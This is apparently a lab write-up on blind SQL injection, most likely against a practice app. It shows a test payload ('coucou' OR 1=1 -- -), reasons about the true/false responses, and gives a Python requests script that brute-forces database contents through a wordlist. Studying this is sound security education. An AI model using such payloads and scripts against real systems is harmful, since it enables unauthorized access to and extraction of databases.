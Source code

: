 - Now when we test the sql injection by putting ``coucou' OR 1=1 -- - ``, the server tells us that the user exists in the database. **Which is abnormal**.

    ![alt text](/img/sql_blind/coucouOR.png#center)


___
## B. Deduction
A BLIND SQl INJECTION vulnerability is present and the server provides only two responses: 
 - a. The user exists in the database
 - b. The user does not exist in the database
<br>

We  suspect that there is a return condition somewhere in the server-side processing, which is poorly implemented. And that's what we're going to exploit to find the contents of the database.


________________________________
## C. Exploitation

```python
import requests

cookies = {
    # Cookies
}

headers = {
    # headers
}

url = "http://vulnerable.website"
```
<br>

**Function that allows us to perform brute force with python**
```python
def send_request_with_wordlist(path_to_wordlist, beginnig_of_sql_request, end_of_sql_request):
    info_found = []
    wordlist = open(path_to_wordlist, 'r')
    lines = wordlist.readlines()
    for line in lines:
        id_param = beginnig_of_sql_request  + line.strip() + end_of_sql_request
        params = {
            'id': id_param,
            'Submit': 'Submit'
        }
        response = requests.get(url,params=params,cookies=cookies,headers=headers)
        if response.status_code == 200:
            print("[FOUND] = ", line.strip())
            info_found.append(line.strip())
    
    return info_found
```
<br>
<br>
